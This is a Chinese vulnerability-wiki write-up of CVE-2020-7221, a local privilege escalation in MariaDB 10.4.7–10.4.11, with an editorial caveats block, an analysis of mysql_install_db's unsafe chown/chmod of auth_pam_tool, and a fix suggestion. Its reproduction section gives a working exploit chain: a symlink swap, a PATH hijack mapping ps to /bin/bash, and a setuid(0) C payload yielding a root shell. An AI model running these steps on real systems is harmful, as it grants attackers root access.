






# （CVE-2020-7221）Mariadb 提权漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：10.4.7-10.4.11；攻击者已有mysql本地身份；root随后执行初始化脚本；目录/符号链接权限满足
- 证据范围：chown/chmod顺序和SUID解释；特地指出Oracle MySQL不受影响

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- SUID不是自动最高权限，而是文件所有者有效身份；本例才为root
- 在/root/pwn放置及访问恶意程序的条件未交代，实验角色切换需厘清
- docker run使用固定本地镜像ID而非可复现tag/digest
- 图片尾部重复路径；来源含临时追踪参数
- 无明确安全版本/厂商修复链接；本地提权不应标远程无认证

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

MariaDB
10.4.7到10.4.11中的mysql\_install\_db允许将特权从mysql用户帐户升级到root用户，因为chown和chmod的执行不安全，如对auth\_pam\_tool\_dir
/ auth\_pam\_tool的chmod
04755的symlink攻击所证明的那样。注意：这不会影响Oracle
MySQL产品，该产品以不同的方式实现mysql\_install\_db。

二、漏洞影响
------------

Mariadb 10.4.7到10.4.11

三、复现过程
------------

#### docker环境搭建：

1.  docker pull mariadb:10.4.8

2.  docker run -it 2ef19234ff46 /bin/bash

#### 漏洞分析

首先定位漏洞点。

    find / -name "mysql_install_db"

Mariadb提权漏洞/media/rId26.png)

在bash脚本上下文中，如果\$user被定义则能进入「配置不当」漏洞点。

    chown $user "$pamtooldir/auth_pam_tool_dir"

    chmod 0700 "$pamtooldir/auth_pam_tool_dir"

这里配置了auth\_pam\_tool\_dir目录的归属权和所有权，权限归属于\$user。
（这里是可控点之一）

    chown 0 "$pamtooldir/auth_pam_tool_dir/auth_pam_tool" 

    chmod 04755 "$pamtooldir/auth_pam_tool_dir/auth_pam_tool"

这里配置了auth\_pam\_tool文件为0（root）所有权，4755文件权限（4为suid权限）。想要进入这个漏洞点需要\$srcdir变量值长度为0才能触发。

关于suid属性：

> SUID属性一般用在可执行文件上，当用户执行该文件时，会「临时拥有该执行文件的所有者权限」。一旦程序拥有SUID权限的话，运行该程序时会以最高权限运行。

##### 回溯 \$srcdir 与 \$user

1.  \$user

Mariadb提权漏洞/media/rId28.png)

在脚本传递args参数时可控制\$user变量。

1.  \$srcdir

Mariadb提权漏洞/media/rId29.png)

也在初始化操作时可控制变量，初始化时为空。

那么想要进入这个漏洞点需要\$srcdir为空，\$user需要设置值。

结合上文描述使用此命令才能触发漏洞点：

    ./mysql_install_db --user=mysql

#### 漏洞复现

寻找suid属性的程序

    find /* -perm -u=s -type f 2>/dev/null

搜索到的suid属性程序「auth\_pam\_tool」替换成我们的恶意suid程序。

    1. rm auth_pam_tool
    2. ln -s /root/pwn auth_pam_tool
    3. export PATH=.:$PATH
    4. ln -s /bin/bash ps

编写一个具有suid权限的恶意程序：

    #include <unistd.h>
    #include <stdlib.h>
    int main(void)
    {
        setuid(0);
        setgid(0);
        system("ps");
        return 0;
    }

Mariadb提权漏洞/media/rId31.png)

切换回root，在root权限下运行mysql\_install\_db脚本（触发修改chmod命令）

Mariadb提权漏洞/media/rId32.png)

再回到mysql用户权限下执行auth\_pam\_tool

Mariadb提权漏洞/media/rId33.png)

提权成功。

可以看到这个漏洞是由于suid与目录权限设置不当，才导致被提权利用的风险。建议在修复中设置auth\_pam\_tool\_dir目录权限为root所有：

    root:mysql  0750 /usr/lib/mysql/plugin/auth_pam_tool_dir

参考链接
--------

> <https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247486415&idx=1&sn=0e413fdfd22f21580e0c70251e53a7cb&chksm=fe7a2f57c90da64190913e4f40d5f854dcc0c794ac988ce667f1ba0d4a262575b5c4a67b65a1&mpshare=1&scene=1&srcid=&sharer_sharetime=1582037009796&sharer_shareid=346bf064ccfaeb680ec3e1af3a4fc9a8&key=36a0b0f21e7aca1c7ade662e9184d730b9617a817ebf64e5bbc6048142797fa6b31c917039b5d1308f1d16cf77ba9f43d541a1bd197ead9b66bb01969c4f1bf2c54e19862f1f9bc1f449495c27554e90&ascene=1&uin=MTU0OTU5NDkzMA%3D%3D&devicetype=Windows+10&version=62080079&lang=zh_CN&exportkey=AUm27aB0HayWjmPDBsXi7NU%3D&pass_ticket=VkgA7hk5gRtBGyr1o4%2Bh5PlNbfx095JODofk2U16AOMJewFkqv%2BeZkeziLm0G2um>
